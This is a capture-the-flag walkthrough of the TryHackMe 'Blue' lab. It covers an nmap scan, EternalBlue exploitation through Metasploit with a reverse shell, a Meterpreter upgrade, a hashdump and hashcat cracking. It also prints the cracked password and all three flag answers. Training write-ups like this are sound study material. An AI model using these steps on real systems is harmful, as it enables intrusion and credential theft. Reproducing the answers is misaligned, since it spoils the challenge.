This write-up documents the exploitation of the TryHackMe "Blue" machine, focusing on SMB enumeration, MS17-010 exploitation, privilege escalation, credential dumping, and post-exploitation flag discovery.

### Initial Enumeration
A full TCP port scan was performed to identify exposed services on the target.

**Command:**
nmap -sC -sV -O -v 10.82.138.97

The scan was run with default scripts, service/version detection, OS detection, and verbose output enabled.

**Results:**
The scan revealed four open TCP ports:
- 135/tcp (RPC)
- 139/tcp (NetBIOS)
- 445/tcp (SMB)
- 3389/tcp (RDP)

**Answer:** 3 ports are open below 1000 (135, 139, 445).




### Vulnerability Discovery
Since the exact vulnerability was unknown, Nmap vulnerability scripts were used to identify known issues on the SMB service.

**Command:**
nmap --script vuln -p 445 10.82.138.97

**Result:**
The vulnerability scan confirmed that the SMB service running on port 445 is vulnerable to **MS17-010**, a critical remote code execution vulnerability affecting Microsoft SMBv1.

This vulnerability allows an unauthenticated remote attacker to execute arbitrary code with SYSTEM privileges.

**Answer:** ms17-010

### Exploitation (MS17-010)
After identifying MS17-010, the vulnerability was exploited using Metasploit to gain remote code execution on the target.

**Start Metasploit:**
msfconsole



### Find Exploit Module 
After confirming that the target is vulnerable to MS17-010, the appropriate exploit module was searched in Metasploit.

**Command:**
search ms17-010

**Result:**
The following exploit was identified:

**Answer:** exploit/windows/smb/ms17_010_eternalblue



### Use Exploit Module
Identified exploit module was selected and its required options were reviewed.

**Command:**
use exploit/windows/smb/ms17_010_eternalblue



### Exploit Configuration
Before running the exploit, the module options were reviewed to identify required parameters.

**Command:**
show options

The output shows that the exploit requires the target IP address to be set.

The required option is:
RHOSTS – Target IP address

Other options such as LHOST and LPORT are used for the reverse shell connection.

**Commands:**
set RHOSTS 10.82.138.97
set LHOST 192.168.228.217
set LPORT 4444

**Answer:** RHOSTS



### Exploit Execution
After configuring the required options, the exploit was executed.

**Command:**
exploit

**Result:**
A Meterpreter session was successfully opened, confirming remote code execution on the target.



### Shell to Meterpreter Upgrade
Although the exploit can directly return a Meterpreter session, in cases where only a standard shell is obtained, it can be upgraded using the shell_to_meterpreter module.

This is useful when an exploit returns a standard shell instead of a Meterpreter session, allowing access to advanced Meterpreter features.

**Command:**
background
search shell_to_meterpreter

**Answer:** post/multi/manage/shell_to_meterpreter



### Shell to Meterpreter Module Configuration
The shell to Meterpreter post-exploitation module was selected to upgrade the existing shell session.

**Command:**
use post/multi/manage/shell_to_meterpreter
show options
sessions
set SESSION <SESSION_ID>

The output shows that the required option to be set is the active session ID.

**Required option:**
SESSION – Specifies the shell session to be upgraded.

**Answer:** SESSION



### Password Hash Dump
With SYSTEM-level privileges, the `hashdump` command was executed to extract password hashes from the target system.

This command requires SYSTEM privileges, which were already obtained through the exploit.

**Command:**
exploit
sessions
sessions -i 2
getuid
hashdump

The output revealed both default and non-default user accounts.

Default Windows accounts:
- Administrator
- Guest

A non-default user account was identified.

**Answer:** Jon



### Password Cracking
The NTLM hash for the non-default user was copied to a file and cracked using Hashcat with the rockyou.txt wordlist.

**Command:**
hashcat -m 1000 jon.hash /usr/share/wordlists/rockyou.txt

The password was successfully cracked.

**Answer:** alqfna22






### Flag 1 – System Root
After obtaining a SYSTEM-level Meterpreter session, the system root directory was accessed to locate the first flag.

**Commands:**
cd C:/
ls
cat flag1.txt

**Flag 1:**
**Answer:** flag{access_the_machine}



### Flag 2 – Windows Password Storage (SAM)
Windows stores local account password hashes in the SAM database, which resides in the System32\config directory and is normally inaccessible without SYSTEM privileges.

With SYSTEM privileges, this directory was accessed to locate the second flag.

**Commands:**
cd C:/Windows/System32/config
ls flag2.txt
cat flag2.txt

**Flag 2:**
**Answer:** flag{sam_database_elevated_access}



### Flag 3 – User Loot Location
User document directories are a common post-exploitation target, as administrators and users often store sensitive or valuable information in these locations.

After gaining a Meterpreter session, the Documents directory of the non-default user was inspected.

**Commands:**
cd C:/Users/Jon/Documents
ls
cat flag3.txt

**Flag 3:**
**Answer:** flag{admin_documents_can_be_valuable}



